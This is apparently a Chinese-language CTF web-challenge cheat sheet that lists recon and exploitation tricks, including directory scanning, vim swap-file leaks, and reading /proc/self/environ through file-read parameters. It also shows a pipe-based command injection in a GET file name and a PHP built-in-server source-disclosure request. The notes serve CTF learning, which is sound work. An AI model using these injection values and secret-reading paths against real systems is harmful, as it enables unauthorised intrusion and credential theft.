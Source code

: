 拿到题，访问web。
查看源码 仔细查看或者搜索关键词，如flag,include等，提示方向。

F12查看网络请求情况。
最好抓包，仔细查看请求头，响应头信息。

查看传参，回显情况。sql注入，文件包含，模板注入。

目录测试，如flag.php，robots.txt，www.zip
探针/tz.php，/backup.sql
```
D:\mypython\python311\python.exe  dirsearch.py -u "http://16b5eb0b-ac30-452a-808a-0e9214102abd.node3.buuoj.cn/" -s 1 --exclude-status=429,403 -t 1
```

^
早期 asp+access 架构的数据库文件为db.mdb，访问/db/db.mdb下载一个文件。Access或文本打开搜索得到flag。

^
临时文件
>临时文件是在vim编辑文本时就会创建的文件，如果程序正常退出，临时文件自动删除，如果意外退出就会保留，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容。所以通过在url后面加上/index.php.swp即可看到flag。
以index.php来说，第一次退出后，缓存文件名为index.php.swp，第二次退出后，缓存文件名为index.php.swo,第三次退出后文件名为index.php.swn。
场景：发现网页有个错别字？赶紧在生产环境vim改下，不好，死机了

^
一般flag在/flag或/flag.txt中，也可能在env命令环境变量中，还可能在phpinfo()中，php的$GLOBALS数组中, echo $flag中。
/read?file=/proc/self/environ
/read?file=/proc/environ
cat /proc/1/environ
cat /proc/$PID/environ
^
## **爆破参数**
一个网站没有任何传参提示，如python ssti注入点，需要用工具爆破出参数。
工具arjun


**安装**
```
pip3 install arjun
```
或者下载github项目<https://github.com/s0md3v/Arjun>，使用python安装
```
python3 setup.py install
```

**使用**
```
python3 arjun -u http://e3.buuoj.cn/ -c 100 -d 5
arjun  -u http://e3.buuoj.cn/ -c 100 -d 5
```


^
## **linux中程序漏洞**
GET函数漏洞
>低层的open函数存在命令执行漏洞：如果open文件名中存在管道符（也叫或符号|），就会将文件名直接以命令的形式执行，然后将命令的结果存到与命令同名的文件中(前提先有这个文件)。
```
GET /
查看根目录目录
GET file:|readflag
会执行readflag程序的命令，并返回程序执行结果到readflag文件，没有先创建。

GET file:bash -c /readflag|
会执行readflag程序命令，并返回程序执行结果到readflag|文件，没有先创建。
```


^
## **nuclei扫描**
有时候可能会出现一些cve漏洞作为前提，这时候可以漏扫一下先。


如：PHP<=7.4.21时通过`php -S`开起的WEB[服务器]存在源码泄露漏洞。 
payload：
```
GET /flag.php HTTP/1.1
Host: challenge.wucup.cn:38308


GET /Kawakaze HTTP/1.1
```
